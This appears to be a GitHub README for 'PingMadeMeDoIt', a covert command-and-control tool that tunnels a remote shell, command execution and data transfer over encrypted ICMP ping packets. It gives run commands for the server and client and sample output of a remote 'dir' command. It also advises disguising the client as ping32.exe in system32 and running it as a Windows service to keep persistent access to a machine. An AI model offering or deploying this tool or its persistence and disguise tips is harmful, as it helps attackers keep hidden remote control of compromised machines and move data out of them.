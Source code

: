 # PingMadeMeDoIt
Mom, ping made me do it ! Use ping to enter shell, execute commands or send data.

Use Ping IMCP 8 to send data, receive data. In our example we implemented a shell, job command and simple plain messaging. All of this in combination with some AES-256 encryption sauce.
Ping client will run as normal ping but if you supply client.exe advanced, it will start the custom ping.

Nowadays this technique is quite known but still it's a nice backup to maintain persistence access to a machine. Maybe combinate this with some windows service which calls our custom ping each 60 minutes, put it in system32\ as ping32.exe ?

<b>run server : python PingMadeMeDoIt.py</b>
server commands : shellstart (start shell), shellexit (exit shell), job: cmd (execute cmd provided and return info), if no command is received default behaviour is to send back reply with the text inputted.

<b>run client : python PingMadeMeDoIt.exe advanced x.x.x.x hello</b>

<br>
<b>Server Side..</b>
<br><br>
[root@yourmom ping]# python3.11 PingMadeMeDoIt.py<br>
Listening for ICMP Echo requests...<br>
Enter the response text to send : shellstart<br>
Entered shell mode.<br>
$ dir<br>
result: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>
<br>
 Directory of C:\Users\yourmom\filled<br>
<br>
07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll<br>
07/30/2023  08:10 PM             9,728 Deep.exe<br>
07/30/2023  08:10 PM            24,064 Penetration.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
$ shellexit<br>
Shell mode exited.<br>
<br>
<b>Client Side..</b>
<br><br>
C:\Users\yourmom\filled>PingMadeMeDoIt.exe advanced x.x.x.x good<br>
Custom ICMP Echo Request sent successfully.<br>
IP Address: x.x.x.x<br>
Roundtrip Time: 3777 ms<br>
Time to Live (TTL): 50<br>
Buffer Size: 94 bytes<br>
Buffer Data (Hex): 73 67 48 7A 62 44 4E 4C 4C 69 75 49 36 62 6E 6B 42 71 4F 52 45 41 3D 3D 7C 6B 66 4B 53 38 49 63 70 32 6F 4E 30 30 4A 44 49 6C 43 49 30 43 62 31 6D 4B 6F 42 6F 4D 70 6A 43 55 54 54 59 4C 71 70 6C 69 2F 34 3D 7C 6A 48 34 2F 42 42 70 43 34 4A 31 46 46 37 38 79 74 38 49 63 2B 67 3D 3D<br>
Buffer Data (ASCII): sgHzbDNLLiuI6bnkBqOREA==|kfKS8Icp2oN00JDIlCI0Cb1mKoBoMpjCUTTYLqpli/4=|jH4/BBpC4J1FF78yt8Ic+g==<br>
Received command: dir<br>
Send ping reply: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>

 Directory of C:\Users\yourmom\filled<br>

07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll<br>
07/30/2023  08:10 PM             9,728 Deep.exe<br>
07/30/2023  08:10 PM            24,064 Penetration.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
Received shellexit. Exiting the loop.<br>

